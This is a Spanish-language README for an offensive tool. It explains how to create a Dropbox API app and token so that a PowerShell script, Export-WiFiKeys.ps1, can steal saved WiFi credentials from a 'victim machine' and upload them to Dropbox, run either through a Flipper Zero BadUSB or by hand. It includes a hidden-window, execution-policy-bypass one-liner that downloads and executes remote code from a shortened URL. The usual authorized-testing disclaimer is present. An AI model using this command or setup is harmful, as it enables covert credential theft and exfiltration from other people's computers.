






# README: Creación y Configuración de una API de Dropbox

## Introducción
Este documento proporciona una guía paso a paso para crear y configurar una API de Dropbox. Se utilizará para automatizar la transferencia de archivos, en particular para la extracción y carga de credenciales WiFi desde un sistema comprometido a Dropbox mediante un script de PowerShell y Flipper Zero.

---

## 1. Creación de una Aplicación en Dropbox

### Paso 1: Acceder a Dropbox Developer
1. Ingresa a [Dropbox Developers](https://www.dropbox.com/developers/apps).
2. Inicia sesión con tu cuenta de Dropbox.
3. Haz clic en "Create App".
   


### Paso 2: Configurar la Aplicación
1. Selecciona "Scoped access".

   
3. En "Choose the type of access you need", elige "App folder".
4. Asigna un nombre a la aplicación (Ejemplo: `bat_Back_USB`).
5. Haz clic en "Create App".

---

## 2. Configurar Permisos de la Aplicación


### Paso 3: Editar Permisos
1. Dirígete a la pestaña "Permissions".
2. Marca las opciones:
   - "Edit content"
   - "View content"
3. Haz clic en "Submit" para guardar los cambios.

---

## 3. Obtener y Configurar el Access Token

### Paso 4: Generar Access Token
1. Ve a la pestaña "Settings" de tu aplicación.
2. Busca la sección "OAuth 2".
3. Haz clic en "Generate Access Token".
4. Copia el token generado.

### Paso 5: Configurar el Script
1. Abre el archivo `Export-WiFiKeys.ps1`.
2. Busca la línea `db = ""` (aproximadamente en la línea 49).
3. Pega el Access Token entre las comillas dobles.
4. Guarda el archivo.

---

## 4. Métodos de Ejecución del Script
El script `Export-WiFiKeys.ps1` tiene la funcionalidad incorporada para exfiltrar credenciales y subirlas a Dropbox. Se puede ejecutar de dos formas:

### Opción 1: Ejecutar desde Flipper Zero (BadUSB)
1. Guarda el script en Flipper Zero.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Carga el script a través de la interfaz del dispositivo.
4. Abre una terminal en el Flipper Zero y ejecuta el siguiente comando:

   ```powershell
   powershell -w h -ep bypass $db='API_TOKEN';irm https://goo.su/x3RyN | iex
   ```

### Opción 2: Descargar y Ejecutar el Script en la Máquina Víctima
1. Descarga el archivo `Export-WiFiKeys.ps1` en la máquina víctima.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Abre PowerShell con permisos de administrador.
4. Navega al directorio donde se encuentra el script.
5. Ejecuta el script:

   ```powershell
   .\Export-WiFiKeys.ps1
   ```

En ambas opciones, el script extraerá las credenciales WiFi y las subirá automáticamente a Dropbox.
---

## Notas Importantes
- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP generado.
- El script debe ejecutarse con permisos de administrador en Windows para acceder a las credenciales WiFi.
- Usa este script solo en entornos de prueba con permisos explícitos.

## Licencia y Descargo de Responsabilidad
Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo LICENSE para más detalles.

🚨 **Descargo de Responsabilidad**: El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables. Este proyecto debe utilizarse únicamente con fines educativos y en entornos de pruebas con permisos explícitos.
---
